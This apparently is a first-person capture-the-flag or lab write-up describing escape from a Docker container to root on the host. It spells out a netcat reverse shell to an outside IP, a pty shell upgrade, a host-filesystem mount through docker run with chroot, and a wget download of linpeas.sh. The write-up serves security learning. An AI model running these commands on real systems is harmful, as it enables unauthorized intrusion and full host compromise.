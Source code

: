 The goal of this project was to exploit vulnerabilities in a containerized application to gain access to the host system, escalate privileges, and perform a security audit using popular tools like linpeas.sh. Initially, I set up a listener on the host machine to listen for incoming connections on port 4444 with the command nc -nlvp 4444. This prepared the environment for reverse shell connections.

Afterward, I attempted to establish a reverse shell connection from within the target container back to the host system by running nc -e /bin/bash 10.10.26.58 4444. However, the shell I received was non-interactive. To fix this, I utilized Python to spawn an interactive bash shell with python3 -c 'import pty; pty.spawn("/bin/bash")'. This allowed me to gain a fully interactive shell on the target system, giving me more control over the container.

Next, I inspected the Docker environment and the containers running on it by using docker images and docker ps. I identified a relevant Docker image and then executed a command to mount the host system’s root filesystem into the container, thus giving me access to the host system’s file structure. The command I used for this was docker run -it -v /:/host/ d5954e1d9fa4 chroot /host/ bash.

This command allowed me to escape the container's isolated environment and interact directly with the host system’s filesystem. To explore the filesystem, I used ls -la / and navigated through the directories.

At this point, I discovered a file named flag.txt and a potentially important directory /tmp. I then proceeded to download and execute linpeas.sh, a script commonly used for privilege escalation checks on Linux systems. To fetch the script, I used the wget command: wget http://10.10.26.58:4444/linpeas.sh.

After executing linpeas.sh, I was able to identify weaknesses and misconfigurations in the system that allowed me to escalate privileges. Ultimately, I gained root access to the host system. This project demonstrates the risks associated with improperly secured Docker environments and illustrates the process of privilege escalation within such environments. Through this process, I successfully broke out of the container’s isolation and gained full control over the host system, emphasizing the need to properly secure Docker containers and other virtualized systems in real-world environments.
